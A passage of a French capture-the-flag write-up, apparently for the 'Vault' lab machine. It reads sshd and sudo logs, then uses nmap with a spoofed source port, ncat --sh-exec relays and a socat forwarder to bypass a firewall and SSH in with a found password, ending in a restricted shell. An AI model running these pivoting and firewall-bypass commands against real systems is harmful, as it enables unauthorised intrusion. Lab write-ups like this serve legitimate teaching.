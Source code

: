 ```plain
Jul 24 15:06:26 DNS sshd[1500]: pam_unix(sshd:auth): authentication failure; logname= uid=0 euid=0 tty=ssh ruser= rhost=192.168.5.2  user=dave
Jul 24 15:06:28 DNS sshd[1500]: Failed password for dave from 192.168.5.2 port 4444 ssh2
Jul 24 15:06:28 DNS sshd[1500]: Connection closed by 192.168.5.2 port 4444 [preauth]
Jul 24 15:06:57 DNS sshd[1503]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
Jul 24 15:06:57 DNS sshd[1533]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
Jul 24 15:06:57 DNS sshd[1533]: Disconnected from 192.168.5.2 port 4444
Jul 24 15:07:21 DNS sshd[1536]: Accepted password for dave from 192.168.5.2 port 4444 ssh2
Jul 24 15:07:21 DNS sshd[1566]: Received disconnect from 192.168.5.2 port 4444:11: disconnected by user
Jul 24 15:07:21 DNS sshd[1566]: Disconnected from 192.168.5.2 port 4444
Sep  2 15:07:51 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/nmap 192.168.5.2 -Pn --source-port=4444 -f
Sep  2 15:10:20 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 1234 --sh-exec ncat 192.168.5.2 987 -p 53
Sep  2 15:10:34 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 3333 --sh-exec ncat 192.168.5.2 987 -p 53
```

Il semble que la machine 192.168.5.2 dispose d'un port 987...  

Lançons d'abord un scan en spécifiant le port source 4444 comme indiqué dans la commande Nmap présente :  

```plain
nmap -T5 -f --open -g 4444 192.168.5.2
PORT    STATE SERVICE
987/tcp open  unknown
```

De quoi s'agit-il ?  

```plain
root@DNS:/var/www/html# ncat -p 4444 192.168.5.2 987 -v
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.5.2:987.
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4
```

Il faut être en mesure de pouvoir utiliser le client SSH tout en ayant le port source 4444. C'est une situation que j'ai déjà couvert dans mon article [sur le bypass de firewall par port source](http://devloop.users.sourceforge.net/index.php?article27/bypass-de-firewall-sur-le-port-source).  

Ici j'ai choisi d'utiliser [un socat 32 bits statique trouvé sur Github](https://github.com/ernw/static-toolbox/releases) qui mettra en écoute un port 11111 sur *DNS* et qui se chargera de rediriger le trafic vers *Vault* (192.168.5.2) sur son port 987 :  

```bash
./socat-x86 TCP4-LISTEN:11111,reuseaddr,fork,bind=127.0.0.1 TCP4:192.168.5.2:987,bind=192.168.122.4:4444,reuseaddr &
ssh -p 11111 dave@127.0.0.1
```

En utilisant le mot de passe *dav3gerous567* trouvé plus tôt on obtient notre shell sur *Vault* mais on est dans un shell restreint (rbash).  
